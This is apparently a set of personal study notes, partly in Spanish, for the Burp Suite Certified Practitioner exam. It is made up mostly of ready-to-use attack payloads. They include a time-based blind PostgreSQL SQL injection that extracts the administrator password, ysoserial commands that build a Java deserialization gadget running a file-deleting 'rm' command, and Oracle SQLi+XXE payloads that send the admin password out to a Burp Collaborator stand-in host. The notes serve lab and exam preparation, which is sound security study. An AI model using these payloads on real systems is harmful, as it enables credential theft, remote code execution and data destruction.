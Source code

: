 Claramente en intruder filtraremos por el **response received los que tengan 7 seg serán las letras de la password**

```js
;SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,§1§,1)='§a§')+THEN+pg_sleep(7)+ELSE+pg_sleep(0)+END+FROM+users--

//en la seccion de "Tips utiles examen Practica BSCP SQLi postgreSQL" tengo más payloads exitosos del exam BSCP ->
```

> Stage 3 of the Burp Practice exam admin portal require exploitation of an [insecure deserialization](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study?tab=readme-ov-file#ysoserial) cookie value.

```js
- In Java versions 16 and above:

java -jar ysoserial-all.jar \ --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \ --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \ --add-opens=java.base/java.net=ALL-UNNAMED \ --add-opens=java.base/java.util=ALL-UNNAMED \ CommonsCollections4 'rm /home/carlos/morale.txt' | base64
    
- In Java versions 15 and below:
    
java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64
```

--- 
### Blind SQLi `TrackingId` Out-of-band data exfiltration `XXE` `Oracle`

> Target is vulnerable to Out of band data exfiltration using Blind SQL exploitation query. In this case the trackingID cookie. Below is combination of SQL injection and XXE payload to exploit the vulnerability and send administrator password as DNS request to the collaborator service

Importante añadir el Burp-Collaborator para poder exfiltrar la info. 

```js
TrackingId=xxx'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.OASTIFY.COM/">+%25remote%3b]>'),'/l')+FROM+dual--

TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
```
